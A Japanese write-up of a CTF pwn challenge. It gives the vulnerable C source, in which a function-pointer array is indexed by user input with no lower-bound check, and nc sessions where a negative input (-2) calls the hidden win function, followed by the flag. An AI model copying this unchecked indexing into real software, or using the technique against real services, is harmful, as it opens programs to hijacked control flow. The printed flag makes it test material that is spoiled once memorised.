 # Attack! Attack! Win!:Pwn:10.00pts
flagを盗まれてしまいました……  
敵を倒して取り返してきてもらえませんか？  
`nc attack_attack_win.web.cpctf.space 30005`  

[配布ファイル](attack_attack_win.zip)  

**Hint**  
HocusPocus を選択するとメモリリークが起きます。  
winとAttackの間には24の差があるようです。  
また、AttackとHeal、HealとHocusPocusの間には8の差があります。  
ここから、1大きい数字を入力すると8大きいコマンドが実行されているのではないか？と推測できます。  
つまり、winを実行するためにはAttackよりも3小さい数字、すなわち-2を入れればよいはずです。  
実際に入力してみましょう。  

# Solution
接続先とソースが与えられる。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>

int enemyHp, playerHp;
void (*win)();
void (*enemyCommand)();
void (*playerCommands[3])();

void init(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(60);
}

void getFlag(){
	puts("You got the flag!");
	system("cat flag.txt");
}

void hocusPocus(){
	puts("Memory leak!");
	printf("Attack     : %p\n", &playerCommands[0]);
	printf("Heal       : %p\n", &playerCommands[1]);
	printf("HocusPocus : %p\n", &playerCommands[2]);
	printf("win        : %p\n\n", &win);
}

void attack(){
	enemyHp -= 40;
	if(enemyHp < 0){
		enemyHp = 0;
	}
}

void heal(){
	playerHp += 30;
	if(playerHp > 100){
		playerHp = 100;
	}
}

void enemyAttack(){
	playerHp -= 50;
	if(playerHp < 0){
		playerHp = 0;
	}
}

void printHp(){
	printf("YourHP:%d\nenemyHp:%d\n\n", playerHp, enemyHp);
}

void printCommands(){
	puts("1: Attack\n2: Heal\n3: Hocus Pocus\n");
}

int main(){
	int input;

	init();
	enemyHp = 100;
	playerHp = 100;
	playerCommands[0] = attack;
	playerCommands[1] = heal;
	playerCommands[2] = hocusPocus;
	enemyCommand = enemyAttack;
	win = getFlag;

	puts("\n");
	puts("Defeat the enemy to get the flag!\n\n");

	while(1){
		printHp();
		if(playerHp <= 0){
			puts("You lose...");
			break;
		}else if(enemyHp <= 0){
			win();
		}
		printCommands();

		scanf("%d", &input);
		printf("\n");

		if(input > 3){
			puts("Nothing happens.\n");
		}else{
			playerCommands[input - 1]();
		}
		enemyCommand();
	}
	return 0;
}
```
`attack`、`heal`、`hocusPocus`なるコマンドがあり、関数を呼び出す形で実現されている。  
`win`(`getFlag`)が用意されているので、そちらを呼び出せばゴールとなる。  
`attack`、`heal`は決まった動作で、悪用可能ではなさそうだ。  
`hocusPocus`はアドレスを表示してくれる。  
接続してアドレスを見る。  
```bash
$ nc attack_attack_win.web.cpctf.space 30005


Defeat the enemy to get the flag!


YourHP:100
enemyHp:100

1: Attack
2: Heal
3: Hocus Pocus

3

Memory leak!
Attack     : 0x55da79752070
Heal       : 0x55da79752078
HocusPocus : 0x55da79752080
win        : 0x55da79752058
~~~
```
`win`は`attack`の0x18前にいることがわかる。  
ここで、`playerCommands[input - 1]();`の箇所で、`input`にチェックがないため負の数を指定できることに気づく。  
0x18前に`win`がいるので`playerCommands[-3]();`となるよう`-2`を入力してやる。  
```bash
$ nc attack_attack_win.web.cpctf.space 30005


Defeat the enemy to get the flag!


YourHP:100
enemyHp:100

1: Attack
2: Heal
3: Hocus Pocus

-2

You got the flag!
CPCTF{4_c1eVeR_4nd_p4CifI5t_7hi3F}
~~~
```
`win`が呼び出され、flagが得られた。  

## CPCTF{4_c1eVeR_4nd_p4CifI5t_7hi3F}